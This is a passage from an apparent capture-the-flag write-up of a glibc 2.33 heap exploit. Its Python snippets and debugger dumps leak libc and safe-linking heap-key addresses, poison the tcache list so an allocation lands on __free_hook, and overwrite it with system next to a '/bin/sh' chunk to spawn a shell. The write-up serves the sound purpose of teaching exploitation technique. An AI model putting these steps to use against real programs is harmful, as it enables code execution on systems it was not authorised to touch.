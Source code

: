 Unfortuantely, we can't just `print_note` `note #8` to get a `libc` pointer for two reasons.
The libc addr starts with `00` and puts will just give us an empty output.
And we don't actually have a pointer to the start of the `unsorted-bin` chunk.

Instead, we can take advantage of `note #9` being an `0x70` allocation.
When it's re-used we get an `8-byte` overwrite into the next chunk.
```python
add_note(11, b"A"*0x70)
```
Which looks something like this:
```
Chunk(addr=0x55ecd22bb690, size=0x70, flags=PREV_INUSE)  //Note #9
    [0x000055ecd22bb690     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]

Chunk(addr=0x55ecd22bb700, size=0xb0, flags=PREV_INUSE)  //unsorted bin
    [0x000055ecd22bb700     0a bc 54 5c b2 7f 00 00 00 bc 54 5c b2 7f 00 00    ..T\......T\....]
```

With this, we can print out the `libc` address.
```python
unsorted_leak = u64(b"\x00" + print_note(7)[0x72:-1] + b"\x00"*2)
```

Let's not forget to leak heap key because this is `libc 2.33`.
```python
heap_leak = u64(print_note(0)[1:-1] + b"\x00"*3)
```

All our leaks look something like this:
```
LIBC LEAK: 0x7fb25c36b000
SYSTEM:    0x7fb25c3baa60
FREE HOOK: 0x7fb25c54ee20
HEAP KEY: 0x55ecd22bb
```

Let's finish the exploit by writing to `__free_hook` through inserting the chunk
into our `t-cache` list.

We can use the `edit_note` function to overwrite the `t-cache` pointer in `node #5`.
We also need to xor the `__free_hook` address with our `heap key` so that it becomes a valid pointer.

```python
edit_note(5, p64(libc.sym['__free_hook'] ^ heap_leak)[:6], newline=False)
```

Our Tcache list should now look something like this:
```
Tcachebins[idx=7, size=0x90] count=6  ←  Chunk(addr=0x55688c487570, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x7fb25c54ee20, size=0x0, flags=! PREV_INUSE)  ←  [Corrupted chunk at 0x7f6031501]
```

We can see that `__free_hook`'s address was successfully added to the list and we'll get a reference in three allocations.

```
add_note(13, b"/bin/sh\x00", big=True)
add_note(14, b"TEST", big=True)
add_note(15, p64(libc.sym["system"]), big=True)
```
